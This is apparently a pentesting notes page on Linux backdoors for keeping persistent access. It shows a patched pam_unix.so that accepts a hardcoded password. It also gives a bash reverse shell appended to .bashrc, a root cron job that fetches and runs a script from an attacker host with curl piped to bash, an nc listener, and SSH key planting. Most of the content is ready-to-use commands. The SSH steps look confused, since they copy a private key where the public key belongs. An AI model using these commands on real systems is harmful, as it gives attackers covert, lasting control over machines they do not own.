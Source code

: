 # Backdoors

<figure><img src="https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExOTI4YTQxMDEzNTRiOTQzMmFjMzQxZmQ2NTg2MDRjZjQwYTUzZDIxNCZlcD12MV9pbnRlcm5hbF9naWZzX2dpZklkJmN0PWc/3o6Mb6aijVsBCIc6oU/giphy.gif" alt="" width="375"><figcaption></figcaption></figure>

{% hint style="info" %}
<mark style="color:blue;">A backdoor refers to</mark> <mark style="color:blue;">**any method**</mark> <mark style="color:blue;">by which</mark> <mark style="color:blue;">**authorized**</mark> <mark style="color:blue;">and</mark> <mark style="color:blue;">**unauthorized users**</mark> <mark style="color:blue;">are able to get around normal security measures and</mark> <mark style="color:blue;">**gain high level**</mark> <mark style="color:blue;">user access (aka root access) on a computer</mark> <mark style="color:blue;">**system**</mark><mark style="color:blue;">,</mark> <mark style="color:blue;">**network**</mark><mark style="color:blue;">, or</mark> <mark style="color:blue;">**software application**</mark><mark style="color:blue;">.</mark>

<mark style="color:blue;">They are known for being</mark> <mark style="color:blue;">**discreet**</mark><mark style="color:blue;">. Backdoors exist for a select group of people in the know to</mark> <mark style="color:blue;">**gain easy access to a system or application**</mark><mark style="color:blue;">.</mark>
{% endhint %}

## `PAM`

{% hint style="info" %}
<mark style="color:blue;">This backdoor essentially consists of</mark> <mark style="color:blue;">**adding your own password**</mark> <mark style="color:blue;">to the</mark> <mark style="color:blue;">**pam\_unix.so**</mark> <mark style="color:blue;">file</mark>
{% endhint %}

_pam\_unix.so_ file is responsible for **authentication**

![](<../.gitbook/assets/image (10) (1).png>)

_pam\_unix.so_ uses the unix\_verify\_password function to verify to user's supplied password **:**

![we added a new line to our code : if (strcmp(p, "0xMitsurugi") != 0 )](<../.gitbook/assets/image (16).png>)

## `.bashsrc`

{% hint style="info" %}
<mark style="color:blue;">If a user has</mark> <mark style="color:blue;">**bash**</mark> <mark style="color:blue;">as their</mark> <mark style="color:blue;">**login shell**</mark><mark style="color:blue;">, the "</mark><mark style="color:blue;">**.bashrc**</mark><mark style="color:blue;">" file in their home directory is</mark> <mark style="color:blue;">**executed**</mark> <mark style="color:blue;">when an interactive session is launched.</mark>
{% endhint %}

Any user that log in often :

```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

**Put a nc listener**

## `CronJob`

### With a root access

{% hint style="info" %}
_<mark style="color:blue;">cronjobs file -></mark>_ _<mark style="color:blue;">**/etc/cronjob**</mark>_
{% endhint %}

Configure a task where every minute a reverse shell is sent to you. Add this line into your cronjob file :

```
* *     * * *   root    curl http://$attacker_ip:8080/shell | bash
```

Add this to the **shell** file :

```bash
#!/bin/bash
bash -i >& /dev/tcp/$ip/$port 0>&1
```

On the attacker machine :

```bash
nc -nvlp $port
```

## `SSH`

{% hint style="info" %}
<mark style="color:blue;">Consists in</mark> <mark style="color:blue;">**saving**</mark> <mark style="color:blue;">our</mark> <mark style="color:blue;">**ssh keys**</mark> <mark style="color:blue;">in some</mark> <mark style="color:blue;">**user’s home**</mark> <mark style="color:blue;">directory. Then we can access it via ssh.</mark>
{% endhint %}

#### Generate ssh key

```bash
ssh-keygen
```

#### Copy our key into the user's .ssh directory

```bash
mkdir .ssh 
cp id_rsa .ssh/id_rsa
```
